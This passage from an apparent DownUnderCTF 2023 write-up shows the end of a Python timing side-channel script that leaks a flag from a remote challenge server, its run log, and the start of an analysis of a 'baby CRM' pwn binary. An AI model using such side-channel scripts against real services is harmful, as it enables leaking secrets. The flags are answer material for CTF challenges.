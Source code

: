 ```python
cur_byte = 0
while (1):
    if off%2 == 0:
        cur_byte += exp(off)<<4
    else:
        cur_byte += exp(off)
        flag += chr(cur_byte)
        log.info("flag: " + flag)
        cur_byte = 0
    
    off += 1

p.interactive()
```

```sh
[+] Opening connection to 2023.ductf.dev on port 30010: Done
[*] attempt 43
[*] time: 13.240954875946045
[*] time: 13
[*] flag: DUCTF{S1de\x00Ch@nN3l_aTT4ckS_aRe_Pr3tTy_c00L!}
[+] Opening connection to 2023.ductf.dev on port 30010: Done
[*] attempt 44
[*] time: 0.40137457847595215
[*] time: 0
[+] Opening connection to 2023.ductf.dev on port 30010: Done
[*] attempt 44
[*] time: 0.31714510917663574
[*] time: 0
[*] flag: DUCTF{S1de\x00Ch@nN3l_aTT4ckS_aRe_Pr3tTy_c00L!}\x00 
```

There's one incorrect character but we can guess it :P

flag: `DUCTF{S1de_Ch@nN3l_aTT4ckS_aRe_Pr3tTy_c00L!}`

# [pwn/hard 316] baby CRM

```sh
$ ./baby-crm
1. New Customer
2. Alter Customer
3. Show Customer
4. Help
>
```

The program provides functions to add customers and add orders to a customer.

Some suspicious points I found:

1. `Order`'s fields use `char` while `Customer`'s fields use `string`. 

   ```cpp
   class Order {
     // ...
     private:
       char* description_;
       double value_;
   };
   
   class Customer {
     // ..
     private:
       string name_;
       float revenue_; 
   ```